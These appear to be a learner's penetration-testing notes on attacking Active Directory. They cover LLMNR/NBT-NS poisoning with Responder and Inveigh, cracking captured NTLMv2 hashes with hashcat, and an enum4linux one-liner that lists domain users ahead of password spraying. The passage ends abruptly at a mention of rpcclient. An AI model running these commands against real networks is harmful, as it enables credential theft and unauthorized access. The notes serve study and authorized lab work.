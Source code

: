# Active directory (my favorite ironically :p)
The first chapter covered enumerating just like I did previously 


## LLMNR NBT-NS

Link-Local Multicast Name Resolution (LLMNR) and NetBIOS Name Service (NBT-NS) are Microsoft Windows components that serve as alternate methods of host identification that can be used when DNS fails.

The kicker here is that when LLMNR/NBT-NS are used for name resolution, ANY host on the network can reply. This is where we come in with Responder to poison these requests.

We will use first responder and let it run for a while in the system to capture hashes and crack them with hashcat with m 5600 for NTLMv2

with windows we'll be using the script inveigh.ps


 to start, we import the module

```powershell
PS C:\htb> Import-Module .\Inveigh.ps1
PS C:\htb> (Get-Command Invoke-Inveigh).Parameters

Key                     Value
---                     -----
ADIDNSHostsIgnore       System.Management.Automation.ParameterMetadata
KerberosHostHeader      System.Management.Automation.ParameterMetadata
ProxyIgnore             System.Management.Automation.ParameterMetadata
PcapTCP                 System.Management.Automation.ParameterMetadata
PcapUDP                 System.Management.Automation.ParameterMetadata
SpooferHostsReply       System.Management.Automation.ParameterMetadata
SpooferHostsIgnore      System.Management.Automation.ParameterMetadata
SpooferIPsReply         System.Management.Automation.ParameterMetadata
SpooferIPsIgnore        System.Management.Automation.ParameterMetadata
WPADDirectHosts         System.Management.Automation.ParameterMetadata
WPADAuthIgnore          System.Management.Automation.ParameterMetadata
ConsoleQueueLimit       System.Management.Automation.ParameterMetadata
ConsoleStatus           System.Management.Automation.ParameterMetadata
ADIDNSThreshold         System.Management.Automation.ParameterMetadata
ADIDNSTTL               System.Management.Automation.ParameterMetadata
DNSTTL                  System.Management.Automation.ParameterMetadata
HTTPPort                System.Management.Automation.ParameterMetadata
HTTPSPort               System.Management.Automation.ParameterMetadata
KerberosCount           System.Management.Automation.ParameterMetadata
LLMNRTTL                System.Management.Automation.ParameterMetadata

<SNIP>
```
and to start the module as follows:

```PS
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```
## Password spraying
if we have an SMB null session, we can use enum4linux, to have users present in the AD with this following command.
```sh
enum4linux -U 172.16.5.5  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
```
or with rpcclient
